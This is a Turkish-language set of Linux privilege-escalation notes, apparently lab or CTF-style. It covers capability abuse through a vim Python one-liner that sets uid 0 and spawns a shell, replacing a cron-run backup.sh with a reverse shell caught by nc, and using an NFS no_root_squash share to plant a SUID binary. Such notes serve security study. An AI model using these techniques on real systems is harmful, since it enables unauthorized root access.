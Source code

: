 Ayrıcalık Yükseltme Yetenekleri:

# getcap ile priv esc


```bash
getcap -r / 2>/dev/null
``` 
![image](https://github.com/user-attachments/assets/41681c69-e0f1-4cfd-9b96-1fd99781a0b2)

daha sonra

![image](https://github.com/user-attachments/assets/f433e7ef-4b5a-422f-882e-b293290ead65)

Vim'in aşağıdaki komut ve yük ile kullanılabileceğini fark ediyoruz:
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
![image](https://github.com/user-attachments/assets/fda3d99b-ff2c-431b-8742-920c643d51a0)

---

# Cronjobs ile priv esc

```bash
cat /etc/crontab
```
![image](https://github.com/user-attachments/assets/0b0a0f38-b9c8-4955-9df3-fb418ce0768a)
backup.sh'ı görebiliyoruz içindekileri silip reverse bash shellimizi koyuyorzu ve nc ile dinliyoruz cronjob çalıştığı zaman shell gelicektir

Eğer backup.sh executable değil ise yürütülebilir yapıp yürütmeliyiz.

![image](https://github.com/user-attachments/assets/3f5f374f-507a-4f6e-89c7-aedca770a237)
 

---

# NFS (Ağ Dosya Paylaşımı) yapılandırması /etc/exports dosyasında tutulur.
```bash
cat /etc/exports
```
![image](https://github.com/user-attachments/assets/c82d3b7f-06d5-41d1-bd36-5a4486cac6fd)

Saldıran makinemizden bağlanabilir paylaşımları sayarak başlayacağız.

```bash
showmount -e [hedef_ip]
```
![image](https://github.com/user-attachments/assets/196a0842-5170-4d3f-be99-1369d61cb9a1)

Saldıracağımız makineye “no_root_squash” paylaşımlarından birini bağlayıp çalıştırılabilir dosyamızı oluşturmaya başlayacağız.
tmp içinde olmalı


![image](https://github.com/user-attachments/assets/0944424d-1742-40d7-9a31-3415a11af785)


sonra 


SUID bitlerini ayarlayabildiğimiz için hedef sistemde /bin/bash'i çalıştıracak basit bir çalıştırılabilir dosya işimizi görecektir.

![image](https://github.com/user-attachments/assets/dde4845c-94af-41e1-a82c-d190484f33e3)

Kodu derlediğimizde SUID bitini ayarlayacağız.

![image](https://github.com/user-attachments/assets/2f97d0c4-0266-4fca-97a3-251db79a799f)

















